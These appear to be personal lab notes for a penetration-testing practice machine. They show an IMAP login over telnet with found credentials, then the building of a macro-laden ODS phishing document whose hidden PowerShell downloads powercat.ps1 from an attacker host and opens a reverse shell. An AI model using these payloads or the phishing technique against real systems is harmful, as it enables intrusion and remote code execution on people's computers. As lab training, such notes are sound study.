 Connect to IMAP using Telnet and credentials `Jonas:SicMundusCreatusEst`

```
telnet 192.168.236.140 143
```

```
a1 login "jonas" "SicMundusCreatusEst"
```


![[PG/Windows/attachments/Pasted image 20250706220423.png]]

Look up how to read the messages...

Read emails
```
a2 fetch 4 body []
```

Reading emails

![[PG/Windows/attachments/Pasted image 20250706221318.png]]

Suggests docs susceptible to macro attacks 

![[PG/Windows/attachments/Pasted image 20250706221508.png]]

# Phishing Email 

Use this tool to create a malicious doc https://github.com/0bfxgh0st/MMG-LO/

Adjust macro to download powercat.ps1 from Python3 web server and use it to establish a reverse shell

```
build_payload = (f'IEX(New-Object System.Net.WebClient).DownloadString("http://192.168.45.152/powercat.ps1");powercat -c {ip} -p {port} -e powershell')
```

```
 payload = 'powershell.exe -windowstyle hidden -ExecutionPolicy Bypass -e ' + base64payload
```

![[PG/Windows/attachments/Pasted image 20250706231643.png]]

![[PG/Windows/attachments/Pasted image 20250706231740.png]]

Now generate malicious ODS file 

```
python3 mmg-ods.py windows <ATTACKER IP> <ATTACKER PORT>
```

```
python3 mmg-ods.py windows 192.168.45.152 9001
```

Stupid indent error fixed with sed magic
```
┌──(cadet㉿kali)-[~/PG/Windows/hepet]
└─$ python3 mal-doc.py windows 192.168.45.152 9001
  File "/home/cadet/PG/Windows/hepet/mal-doc.py", line 206
    bytes_encoded = (base64.b64encode(bytes(build_payload, 'utf-16le')))
                                                                        ^
IndentationError: unindent does not match any outer indentation level
                                                                                                          
┌──(cadet㉿kali)-[~/PG/Windows/hepet]
└─$ sed -i 's/\t/    /g' mal-doc.py

```
